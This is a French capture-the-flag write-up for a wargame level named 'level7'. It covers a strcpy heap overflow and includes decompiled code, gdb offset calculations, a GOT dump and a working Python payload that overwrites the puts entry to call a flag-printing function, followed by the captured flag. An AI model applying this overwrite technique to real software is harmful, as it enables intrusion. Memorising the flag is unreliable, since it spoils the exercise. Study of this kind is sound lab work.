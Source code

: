 # Level7: HEAP OVERFLOW

# Première étape — tester le programme

```bash
$ ./level7
Segmentation fault (core dumped)
$ ./level7 test
Segmentation fault (core dumped)
$ ./level7 test test
~~
$ ./level7 test test test
~~
```
### Target

Nous avons une fonction **m** qui fait un call system de cat sur le flag que nous cherchons parfait pour notre exploitation
```s
080484f4 <m>:
 80484f4:	55                   	push   %ebp
 80484f5:	89 e5                	mov    %esp,%ebp
 80484f7:	83 ec 18             	sub    $0x18,%esp
 80484fa:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048501:	e8 ca fe ff ff       	call   80483d0 <time@plt>
 8048506:	ba e0 86 04 08       	mov    $0x80486e0,%edx
 804850b:	89 44 24 08          	mov    %eax,0x8(%esp)
 804850f:	c7 44 24 04 60 99 04 	movl   $0x8049960,0x4(%esp)
 8048516:	08 
 8048517:	89 14 24             	mov    %edx,(%esp)
 804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt>
 804851f:	c9                   	leave  
 8048520:	c3                   	ret  
```

### main.c

Ce niveau est un peu plus complexe sur l'exploitation et sur la comprehension de l'assembleur alors nous allons utiliser **_ghidra_** pour voir le main en **C**

```c
undefined4 main(undefined4 param_1,int param_2)
{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;
  
  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
```
Nous avons **2 pointeurs undefined** puVar1 et puVar3 qui represente une structure et nous avons **1 pointeur variable** qui est un pointeur temporaire pour attitrer une adresse allouer dans la heap au structure puVar 1 et 3.

voici une visualization en structure C de puVar1 et puVar3

```c

struct puVar1 & puVar3
{
	int		i; [0]
	char	*ptr; [1]
}
```
> INFO: pvVar2 initialise avec malloc le pointeur char de puVar1 et puVar3.

En suite nous avons strcpy qui ecrit dans le **buffer char** de **puVar1 avec param_2 + 4 (argv[1])** et le second **strcpy** qui ecrit dans le **buffer char** de **puVar3 avec param_2 + 8 (argv[2])**.

```c
__stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
```
> la suite de notre programme ouvre le fichier .pass du level suivant ou est stocker notre flag et l'enregistre dans la variable global **c** et affiche dans le **stdout** ("~~") avec **puts**.



### Search fail exploitation

- 1ᵉʳ constat : Nous avons 2 buffer char de 8 octets dans les deux structure allouer l'un a coter de l'autre.
- 2ᵉᵐᵉ constat : Nous avons strcpy qui ecrit dans les deux buffer
- 3ᵉᵐᵉ constat : `c` est une variable globale dans lequel est stocker notre flag et la function `m` qui printf la global `c` mais qui n'est pas appeler dans le main.

**OK NOUS AVONS QUELQUE CHOSE.**

### offset

Nous allons calculer l'offset des pointeur allouer dans la heap.

```s
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp) # 1er adresse
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt> 
   0x08048550 <+47>:	mov    %eax,%edx # 2nd adresse
   ....
(gdb) p/x $eax
$1 = 0x804a008
(gdb) p/x $eax
$2 = 0x804a018
(gdb) p 0x804a018 - 0x804a008
$9 = 16
```
> _Notre offset est de 16 + 4 octets = 20_.

### payload

- Nous allons overflow le premier strcpy sur le pointeur char de la seconde structure pour remplacer l'adresse du prochain buffer char par l'adresse de ``puts``
- Dans le second strcpy nous allons tous simplement changer l'adresse de ``puts`` qui pointe sur la seconde structure par l'adresse de la function ``m``
- Normalement a l'execution de ``puts`` apres le ``fgets`` qui stock le resultat de notre ``flag`` le programme appelera ``m`` aulieu de ``gets``

- ptr_adr(m) = 0x080484f4

```bash
level7@RainFall:~$ objdump -R ./level7 

./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts #<============ Adress_ptr of puts in program
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
- ptr_adr(puts) = 0x08049928


```bash
./level7 $(python -c 'print "A"*(20) + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

### testing

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A"*(20) + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1761146015
```

TADA ! 

Bonne chance et have fun :)
